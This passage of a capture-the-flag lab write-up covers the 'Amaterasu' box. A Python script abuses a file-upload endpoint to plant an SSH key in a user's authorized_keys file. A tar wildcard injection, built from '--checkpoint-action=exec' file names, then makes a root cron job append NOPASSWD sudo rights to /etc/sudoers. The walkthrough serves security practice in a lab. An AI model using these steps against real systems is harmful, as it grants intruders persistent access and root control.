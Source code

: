 ```
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

with open("/home/parabellum/Workspace/pg_play_amaterasu/id_rsa.pub.txt", 'rb') as f:
    encoded_data = MultipartEncoder(
        fields={
            "file": ("id_rsa.pub.txt", f, "text/plain"),
            "filename": "/home/alfredo/.ssh/authorized_keys"
        }
    )

    r = requests.post(
        "http://192.168.125.249:33414/file-upload",
        data=encoded_data,
        headers={"Content-Type": encoded_data.content_type},
    )

print("Status Code:", r.status_code)
print("Response Body:", r.text)
```

Now let's see if we can escalate some privileges:

```
find / -perm /4000 2>/dev/null
```

I went through the entire list and none of these seems to be applicable to the current user. Let's check the `crontab`:

```
cat /etc/crontab
```

There is a script running by root in `/usr/local/bin/backup-flask.sh`. Let's see what it does:

```
cat /usr/local/bin/backup-flask.sh
```

It adds `/home/alfredo/restapi` to PATH environment variable, then goes to that path and executes `tar czf /tmp/flask.tar.gz *`, or in other words compresses everything in `/home/alfredo/restapi` into `/tmp/flask.tar.gz`. There is a way to exploit that `*` wildcard:

```
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'
```

These will be saved as files, only every time the `tar` command runs in the script it will execute `sh privesc.sh`, which will be in the same directory and have the following contents:

```
#!/bin/bash

echo 'alfredo ALL=(root) NOPASSWD: ALL' >> /etc/sudoers
```
